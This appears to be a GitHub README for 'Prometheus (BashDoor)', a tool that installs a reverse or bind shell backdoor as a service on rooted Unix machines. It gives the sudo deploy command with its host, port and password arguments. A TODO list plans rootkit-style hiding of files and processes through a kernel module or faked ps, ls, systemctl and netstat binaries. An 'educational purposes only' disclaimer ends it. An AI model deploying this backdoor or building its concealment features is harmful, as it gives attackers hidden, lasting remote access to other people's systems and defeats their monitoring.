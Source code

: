 # Prometheus (BashDoor)
Prometheus is a reverse/bind shell service backdoor to quickly deploy on rooted unix systems.

deploy.sh, n0sl33p_default and prometheus.service need to be all in the same folder.

Then deploy with:
`sudo ./deploy [bind/reverse] [PORT/HOST] [PASSWORD/PORT] (RETRYTIME if reverse)`

#
### TODO:

-> Add a kernel module to intercept syscalls or make fake "ps", "ls", "systemctl", "netstat" binaries to hide all files and processes

-> Make a nc-less version

-> Improve error-handling, make shell prettier

#
#### Disclaimer: I made this for educational purposes only. I do not condone any illegal uses of Prometheus. You are responsible for your actions.
